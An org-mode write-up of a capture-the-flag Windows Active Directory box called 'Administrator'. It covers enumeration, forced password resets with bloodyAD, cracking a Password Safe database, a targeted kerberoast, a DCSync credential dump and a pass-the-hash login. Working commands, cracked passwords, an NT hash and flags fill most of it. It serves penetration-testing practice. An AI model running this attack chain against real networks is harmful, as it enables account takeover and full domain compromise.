

=
tags: #windows #active-directory #ad #pwsafe #targeted-kerberoasting

==

* scenario
  #+begin_src 
  Olivia : ichliebedich
  #+end_src
* nmap
 #+begin_src bat
 sudo nmap -sV -sC -oA nmap/administrator.basic 10.129.3.173

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-02-15 20:01:26Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-02-15T20:01:31
|_  start_date: N/A
|_clock-skew: 10h13m00s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
 #+end_src
 so we get the domain name =administrator.htb=
** full scan
   #+begin_src 
   sudo nmap  -p- -A -T4 -oA nmap/administrator.full 10.129.3.173
   #+end_src
* ftp
  #+begin_src bat
  ftp 10.129.3.173
  #+end_src
  anonymous login is not allowed; the given creds don't work either.
* smb
  #+begin_src bat
  nxc smb 10.129.3.173 -u Olivia -p ichliebedich --shares

[*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:None) (Null Auth:True)
[+] administrator.htb\Olivia:ichliebedich 
[*] Enumerated shares
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
IPC$            READ            Remote IPC
NETLOGON        READ            Logon server share 
SYSVOL          READ            Logon server share 
  #+end_src
* winrm
  #+begin_src bat
  evil-winrm -i 10.129.3.173 -u Olivia -p 'ichliebedich'
  #+end_src
  this works and we're able to login, but there's nothing on the desktop. the other user is
  =emily=
* bloodhound
  #+begin_src bat
  rusthound-ce -u Olivia -p 'ichliebedich' -d 'administrator.htb' -c All --zip
  #+end_src
  #+DOWNLOADED: file:C%3A/Users/shyam/Desktop/2026-02-15_14-50.png @ 2026-02-16 10:11:29

  

  let's use bloodyAD to get to Benjamin and go from there.
* pivot to Benjamin
** change michael's password
  #+begin_src bat
  bloodyAD --host DC.administrator.htb -d administrator.htb -u Olivia -p 'ichliebedich' set password Michael 'MichaelNewP@ss!'

[+] Password changed successfully!
  #+end_src
** change Benjamin's password
  #+begin_src bat
  bloodyAD --host DC.administrator.htb -d administrator.htb -u Michael -p 'MichaelNewP@ss!' set password Benjamin BenjaminNewP@ss!'

 [+] Password changed successfully!
  #+end_src
* check shares as benjamin
  #+begin_src bat
  nxc smb 10.129.4.61 -u Benjamin -p 'BenjaminNewP@ss!' --shares
  #+end_src
  same as earlier
* rerun bloodhound as Benjamin
   #+begin_src bat
   bloodhound-python -d administrator.htb -u 'Benjamin' -p 'BenjaminNewP@ss!' -dc 'DC.administrator.htb' -c all -ns 10.129.4.61
   #+end_src
   the =shortest path from owned objects= query reveals nothing new.
* login as Michael (since he's part of the remote users group)
  #+begin_src bat
  evil-winrm -i 10.129.4.61 -u Michael -p 'MichaelNewP@ss!'
  #+end_src
  nothing on the desktop; however, an interesting thing is that now the =C:\Users= does not
  show =Olivia=
* attack path
  gain control of =Emily= who has *GenericWrite* over =Ethan= who has *DCSync* over the domain.
* ftp as Benjamin
  #+begin_src 
  ftp 10.129.4.61

Password: 
230 User logged in.
Remote system type is Windows_NT.

ftp> ls

10-05-24  08:13AM                  952 Backup.psafe3
226 Transfer complete.

ftp> get Backup.psafe3
local: Backup.psafe3 remote: Backup.psafe3

100% |************************************************************************|   952       39.41 KiB/s    00:00 ETA
226 Transfer complete.
  #+end_src
  examining the file:
  #+begin_src bat
  $ file Backup.psafe3 

Backup.psafe3: Password Safe V3 database
  #+end_src
  so this is an application similar to keepass called =Password Safe=
* crack the db
  #+begin_src 
  pwsafe2john Backup.psafe3 > psafe_hash.txt
  #+end_src
  crack:
  #+begin_src 
  john --wordlist=/usr/share/wordlists/rockyou.txt psafe_hash.txt
  #+end_src
  show:
  #+begin_src 
  $ john --show psafe_hash.txt

Backu:tekieromucho

1 password hash cracked, 0 left
  #+end_src
  here, =Backu= is just the truncated filename and the password is tekieromucho; which is
  "i love you very much" keeping with the theme i suppose.
* download pwsafe and open the database
  there are 3 entries, one of which is emily and her password is UXLCI5iETUsIBoFVTj8yQFKoHjXmb
** emily creds
   #+begin_src 
   UXLCI5iETUsIBoFVTj8yQFKoHjXmb
   #+end_src
* evil-winrm as emily
  #+begin_src bat
  evil-winrm -i 10.129.4.61 -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
  #+end_src
  we're able to get to her desktop and see the flag:
** user flag
  #+begin_src 
  36f3176fca1f178d5fffdcce1c897fff
  #+end_src
* pivot to Ethan
  #+begin_src bat
  bloodyAD --host DC.administrator.htb -d administrator.htb -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' set password Ethan 'EthanNewP@ss!'
  #+end_src
  this doesn't work; we'll have to do a kerberoasting attack
** kerberoasting
   #+begin_src 
   impacket-GetUserSPNs -dc-ip 10.129.4.61 administrator.htb/Emily -request

No entries found!
   #+end_src
** set SPN
   #+begin_src bat
   bloodyAD -d administrator.htb --host dc.administrator.htb -u Emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -k set object Ethan servicePrincipalName -v 'HTTP/PleaseSubscribe'

 [+] Ethan's servicePrincipalName has been updated
   #+end_src
** targeted kerberoast attack
   #+begin_src bat
   nxc ldap dc.administrator.htb -u Emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' --kerberoast -

LDAP        10.129.4.61     389    DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb) (signing:None) (channel binding:No TLS cert) 
LDAP        10.129.4.61     389    DC               [+] administrator.htb\Emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb 
LDAP        10.129.4.61     389    DC               [*] Skipping disabled account: krbtgt
LDAP        10.129.4.61     389    DC               [*] Total of records returned 1
LDAP        10.129.4.61     389    DC               [*] sAMAccountName: ethan, memberOf: [], pwdLastSet: 2024-10-12 22:52:14.117811, lastLogon: <never>
LDAP        10.129.4.61     389    DC               $krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb\ethan*$8<SNIP>
   #+end_src
** crack ticket
   #+begin_src 
   sudo hashcat -m 13100 -w 3 -O ethan.hash /usr/share/wordlists/rockyou.txt

limpbizkit
   #+end_src
*** ethan creds
    #+begin_src 
    limpbizkit
    #+end_src
* dcsync
  #+begin_src bat
  impacket-secretsdump -outputfile administrator_hashes -just-dc administrator.htb/ethan@10.129.4.61

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets

Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::  
  #+end_src
* root flag
  #+begin_src bat
  $ evil-winrm -i 10.129.4.61 -u Administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
0cb6b762e3a134244ee2bcca594ed243
  #+end_src
* ippsec
  "whenver i see DNS, i scroll down to check for LDAP and we can confirm it's a DC"
** use nxc for ftp
   #+begin_src bat
   nxc ftp 10.129.4.6 -u olivia -p ichliebedich
   #+end_src
** get owner of directory
   #+begin_src 
   get-acl <directory>
   #+end_src
   in this case, the ftproot directory; but it doesn't work due to permissions; so he runs
   #+begin_src
   icacls C:\inetpub
   #+end_src
   which returns a sid in place of a username, meaning the user was probably deleted.
** manual enumeration of the bloodhound json output
   try and [[https://www.youtube.com/watch?v=o3W4H0UfDmQ][manually enumerate]] who has access to the ftp directory.
   #+begin_src 
   cat <timestamp>_groups.json | jq '.data[]
   | select((ObjectIdentifier | split("-") | last | tonumber) > 1000)
   | [.ObjectIdentifier, .Properties.name, .Properties.whencreated]'
   #+end_src
** change Michael's password via net rpc command
   the default bloodhound suggestion
   #+begin_src bat
   net rpc password "michael" "P@ssword1!" -U "administrator.htb"/"Olivia"%"ichliebedich" -S 10.129.4.6
   #+end_src
   confirm it worked with nxc
   #+begin_src bat
   nxc smb 10.129.4.6 -u michael -p P@ssword1!
   #+end_src
** ftp download binary mode
   use the command =bin= to switch to binary mode for the download, otherwise weird encoding
   issues could happen; (i didn't do this and there was a warning, but there were no issues)
   #+begin_src 
   ftp> bin
   #+end_src
** use hashcat for cracking psafe3
   turns out we don't need to use john; instead just use hashcat with mode =5200=
** use targetedkerberoast.py to run the kerberoasting attack
** secretsdump options
   runs it with =-user-status=, =-history=, =-pwd-last-set= flags
   #+begin_src bat
   impacket-secretsdump -user-status -history -pwd-last-set administrator.htb/ethan@10.10.11.42
   #+end_src
   the =history= flag retrieves password history so we can set the password back to the old one
   for the users where we changed passwords.
